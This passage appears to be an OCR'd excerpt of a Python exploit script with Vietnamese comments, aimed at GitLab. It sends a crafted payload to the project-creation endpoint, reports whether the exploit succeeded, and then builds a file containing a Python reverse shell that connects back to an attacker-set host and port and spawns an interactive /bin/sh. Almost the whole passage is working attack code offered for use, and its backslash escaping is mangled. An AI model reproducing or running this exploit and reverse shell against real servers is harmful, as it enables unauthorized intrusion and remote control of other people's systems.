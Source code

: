 \"project\[visibility_level\]\": \"0\"

}

print(\"\[+\] Đang gửi payload\...\")

\# Thiết lập headers

headers = {

\'User-Agent\': \'Mozilla/5.0 (X11; Linux x86_64; rv:68.0)
Gecko/20100101 Firefox/68.0\',

\'Content-Type\': \'application/x-www-form-urlencoded\',

\'Referer\': f\'{gitlab_url}/projects/new\',

\'Accept\':
\'text/html,application/xhtml+xml,application/xml;q=0.9,\*/\*;q=0.8\'

}

\# Gửi request

response = session.post(f\"{gitlab_url}/projects\",

data=project_data,

headers=headers,

allow_redirects=False)

if response.status_code in \[200, 201, 302\]:

print(\"\[+\] Payload đã được gửi thành công!\")

print(f\"\[+\] Response status: {response.status_code}\")

return True

else:

print(f\"\[-\] Gửi payload thất bại. Status code:
{response.status_code}\")

print(f\"\[-\] Response text: {response.text\[:500\]}\...\")

return False

except Exception as e:

print(f\"\[-\] Lỗi khi thực hiện exploit: {e}\")

return False

def create_shell_file():

\"\"\"Tạo file reverse shell để tải lên server\"\"\"

try:

print(\"\[+\] Đang tạo file shell.py cho reverse shell\...\")

python_shell = f\'import
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"{lhost}\",{lport}));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(\[\"/bin/sh\",\"-i\"\]);\'

